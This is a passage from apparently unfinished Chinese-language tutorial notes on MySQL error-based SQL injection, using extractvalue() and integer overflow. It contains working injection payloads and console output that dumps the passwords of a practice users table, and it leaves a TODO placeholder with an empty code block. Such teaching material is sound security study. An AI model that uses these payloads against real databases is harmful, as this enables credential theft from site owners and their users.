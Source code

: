 > mysql> SELECT * FROM users WHERE id='0' and extractvalue(0x0a,concat(0x0a,(select group_concat(password) from users)));
> ERROR 1105 (HY000): XPATH syntax error: ' Dumb,I-kill-you,p@ssword,crappy'
> ```
>
> 为了获取到完整的信息，我们对字符串进行截取，分段获取每部分，最终拼接到一起：
>
> - `left(列名,长度)`与`right(列名,长度)`
>
>   ```sql
>   ?id=1'^extractvalue(1,concat(0x7e,(select(left(password,30))from(表名))))%23
>   
>   ?id=1'^extractvalue(1,concat(0x7e,(select(right(password,30))from(表名))))%23
>   ```
>
> - `substring()`
>
>   只能使用`substring()`、`substr()`、`left()`、`right()`、`regexp()`等函数分批次获取：？？？？？？？？？？TODO：？？？
>
>   ```
>                         
>   ```
>
>   

> 注意：当且仅当`ExtractValue()`与`UpdateXML()`的返回值被当作布尔表达式应用于`WHERE`子句时，XPath表达式才会被解析到最终形态：
>
> ```sql
> // extractvalue()作为Select子句的列名时，不会被处理
> mysql> SELECT EXTRACTVALUE("anything",concat(~,(select database())));
> ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(select database())))' at line 1
> ```

### §3.1.3 大数溢出注入

> 注意：溢出注入依赖于特定的MySQL版本——
>
> - MySQL < 5.5，整形溢出不会报错，本方法无效
> - 5.5.5 < MySQL < 5.5.47，整形溢出会报错，能够执行并返回payload，本方法生效
> - MySQL > 5.5.53，整形溢出会报错，但不会执行并返回payload，本方法失效

MySQL默认使用的整数类型是无符号型`BIGINT`，占用8个字节，最大值为$2^{64}-1=18446744073709551615$。

```sql
mysql> select 18446744073709551615;
+----------------------+
| 18446744073709551615 |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select 18446744073709551616;
+----------------------+
| 18446744073709551616 |
+----------------------+
| 18446744073709551616 |
+----------------------+
1 row in set (0.00 sec)

mysql> select 18446744073709551615 + 1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'
```
